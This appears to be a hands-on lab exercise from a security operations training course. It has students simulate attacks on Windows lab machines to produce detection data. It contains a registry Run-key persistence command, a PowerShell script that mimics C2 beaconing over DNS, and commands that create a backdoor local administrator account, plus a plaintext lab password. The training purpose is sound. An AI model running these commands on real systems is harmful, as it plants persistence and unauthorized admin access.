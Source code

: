 # Module 7 - Lab 1 - Exercise 8 - Conduct attacks

### Task 1: Attack Windows configured with Defender for Endpoint.

In this task, you will perform attacks on a host with Microsoft Defender for Endpoint configured.

1. Login to WIN1 virtual machine with the password as provided in the environment tab.  

2. In the search of the task bar, enter *Command*.  Command Prompt will be displayed in the search results.  Right-click on the Command Prompt and select **Run as Administrator**. Select **Yes** in the User Account Control window that appears to allow the app to run.

3. In the command prompt, enter the command in each row pressing Enter key after each row:

    ```Command
    cd \
    mkdir temp
    cd temp
    ```
4. Attack 1 - Copy and run this command into the Command Prompt app:

    ```Command
    REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
    ```

5. Attack 3 - Copy and run this command:

    ```Command
    notepad c2.ps1
    ```
Select **Yes** to create a new file and copy the following PowerShell script into *c2.ps1*.

>**Note:** Paste into the virtual machine might have a limited length. If direct copy from the instructions is unavailable, paste this code in three sections to ensure all the script is pasted into the Virtual Machine.  Make sure the script looks as it does in these instructions within the notepad *c2.ps1* file.

```PowerShell
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)

$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
         $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }

    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

In the Notepad menu, select **File** and then **Save**. At the Command Prompt window, enter the following commands in each row pressing Enter key after each one. **Note:** You will see resolve errors. This is expected.

 ```CommandPrompt
 Start PowerShell.exe -file c2.ps1
 ```


>**Important:** Do not close the window. Let this command/powershell script run in the background. The command needs to generate log entries for some hours. You can proceed to the next task and next exercises while this script runs. The data created by this task will be used in the Threat Hunting lab later. This process will not create substantial amounts of data or processing.


### Task 2: Attack Windows configured with Sysmon

In this task, you will perform attacks on a host with the Security Events connector configured and Sysmon configured.

1. In the WIN1 virtual machine, search for **Hyper-V** from the bottom windows search bar and select to open.

1. Right click on the **WIN2** virtual machine and select start, then again right-click on the **WIN2** virtual machine and select **connect**.

1. Enter the **Password** as `Password.1!!` when prompted.

1. In the search of the task bar, enter *CMD*.  Command Prompt will be displayed in the search results.  Right-click on the Command Prompt and select **Run as Administrator**.  Accept and User Account Control prompts that appear.

1. In the command prompt, enter the command in each row pressing Enter key after each row:

    ```Command
    cd \
    mkdir temp
    cd temp
    ```

1. Attack 1 - Copy and run this command in the Command Prompt app:

    ```Command
    REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
    ```

>**Note:** We are using the same *persistence* tactic just like in WIN1 but we will use different detections in the next exercise.

1. Attack 2 - Copy and run this command, enter the command in each row pressing Enter key after each row:

    ```Command
    net user theusernametoadd /add
    net user theusernametoadd ThePassword1!
    net localgroup administrators theusernametoadd /add
    ```

## Proceed to Exercise 6
